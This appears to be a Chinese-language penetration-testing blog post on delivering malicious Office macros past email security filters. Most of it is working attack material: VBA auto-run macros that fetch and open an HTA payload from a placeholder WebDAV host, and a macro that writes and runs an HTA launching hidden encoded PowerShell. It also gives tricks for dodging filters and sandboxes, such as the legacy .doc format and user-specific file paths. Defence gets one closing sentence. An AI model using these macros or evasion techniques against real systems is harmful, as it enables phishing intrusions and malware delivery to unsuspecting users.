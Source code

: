 ```yaml
---
date: 2025-08-05T20:16:26+08:00
title: 如何绕过邮件过滤器投递恶意宏代码 - 高级渗透测试技巧
tags: [宏病毒,邮件安全,渗透测试,红队技术]
authors: qife
description: 本文详细介绍了如何通过修改文档格式、使用Shell.Application方法、HTA文件投递等技术手段，绕过企业邮件安全过滤器投递恶意Office宏代码的高级渗透测试技术。
---
```


# 如何绕过邮件过滤器投递恶意宏代码

**警告**：本文所述技术可能已过时，不适用于当前环境。但仍可作为学习资料，或用于更新现代工具技术。

恶意宏代码是有效的攻击技术手段。为防范此类攻击，邮件安全过滤器通常会拦截恶意宏文档。以下是我总结的有效绕过技术：

## 基础技巧：使用旧版文档格式
Ethan Robish(@ethanrobish)传授的标准技巧是将宏文档另存为"Word 97-2003文档"格式。新版Office要求宏文档使用".docm"扩展名，而旧格式允许使用更隐蔽的".doc"扩展名。


## 进阶技术：WebDav投递HTA文件
当传统PowerShell Empire、Metasploit等方法失效时，以下宏代码可通过WebDav服务器获取HTA文件：

```vba
Sub AutoOpen()
    Debugging
End Sub

Sub Document_Open()
    Debugging
End Sub

Public Function Debugging() As Variant
    Set shellApp = CreateObject("Shell.Application")
    shellApp.Open ("\\your.webdavserver.net\webdav\updater.hta")
End Function
```

该代码使用较少受监控的"Shell.Application Open"方法。需将"your.webdavserver.net"替换为实际WebDav服务器地址。

## HTA文件生成方法
使用PowerShell Empire等工具生成HTA文件：


## 受限环境应对方案
当目标无法联网时，可将HTA写入特定用户目录（如c:\Users\croberts\），该路径在沙箱中不存在但能在真实环境生效：

```vba
Public Function Bhistest() As Variant
    Dim Str As String
    Dim Str2 As String
    Str = "<html><head><script>var c= 'powershell.exe -NoP -sta -NonI -W Hidden -Enc "
    '...省略编码命令...
    Str2 = "new ActiveXObject('WScript.Shell').Run(c,0);</script></head><body><script>self.close();</script></body></html>"
    
    Set objFSO = CreateObject("Scripting.FileSystemObject")
    Set objFile = objFSO.CreateTextFile("c:\users\croberts\final.hta", True)
    objFile.Write Str & vbCrLf
    objFile.Write Str2
    objFile.Close
    
    Set shellApp = CreateObject("Shell.Application")
    shellApp.Open ("c:\users\croberts\final.hta")
End Function
```

## 防御建议
企业真的需要允许接收来自外部的宏文档吗？这始终是高风险操作。